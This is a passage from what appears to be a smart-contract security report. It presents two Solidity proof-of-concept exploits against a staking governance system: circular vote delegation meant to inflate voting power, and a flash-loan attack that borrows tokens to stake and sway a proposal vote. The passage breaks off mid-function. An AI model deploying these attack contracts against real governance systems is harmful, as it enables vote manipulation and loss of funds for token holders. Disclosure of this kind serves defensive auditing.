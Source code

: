
## **Technical Exploit Analysis**

### **Attack Vector 1: Delegation Loop Creation**
```solidity
// Proof-of-Concept: Circular Delegation Exploit
contract DelegationLoopExploit {

    IGovHub public govHub;
    IStakeHub public stakeHub;

    function createDelegationLoop() external {
        address[] memory accounts = new address[](3);
        accounts[0] = address(this);
        accounts[1] = createAccount1();
        accounts[2] = createAccount2();

        // Create circular delegation: A → B → C → A
        govHub.delegate(accounts[0], accounts[1]);  // A delegates to B
        govHub.delegate(accounts[1], accounts[2]);  // B delegates to C
        govHub.delegate(accounts[2], accounts[0]);  // C delegates to A (LOOP)

        // Now any vote by A, B, or C will have infinite voting power
        emit DelegationLoopCreated(accounts);
    }

    function exploitVotingLoop(uint256 proposalId) external {
        // Vote with artificially inflated power due to delegation loop
        govHub.castVote(proposalId, 1); // Support

        // Voting power = stake + delegated_power(infinite loop)
        // This breaks the mathematical consistency: vote_total ≠ Σ(stakes)
    }
}
```

### **Attack Vector 2: Flash Loan Vote Weight Inflation**
```solidity
// Proof-of-Concept: Flash Loan Governance Attack
contract FlashLoanGovernanceExploit {

    IFlashLoanProvider public flashLoanProvider;
    IGovHub public govHub;
    IStakeHub public stakeHub;

    function executeFlashLoanVote(
        uint256 proposalId,
        uint256 flashLoanAmount
    ) external {

        // Step 1: Take massive flash loan
        flashLoanProvider.flashLoan(
            flashLoanAmount,
            abi.encodeWithSelector(this.flashLoanCallback.selector, proposalId)
        );
    }

    function flashLoanCallback(uint256 proposalId) external {
        require(msg.sender == address(flashLoanProvider), "Invalid caller");

        // Step 2: Use flash loan to stake massive amount
        uint256 loanAmount = IERC20(stakeToken).balanceOf(address(this));
        stakeHub.stake(loanAmount);
```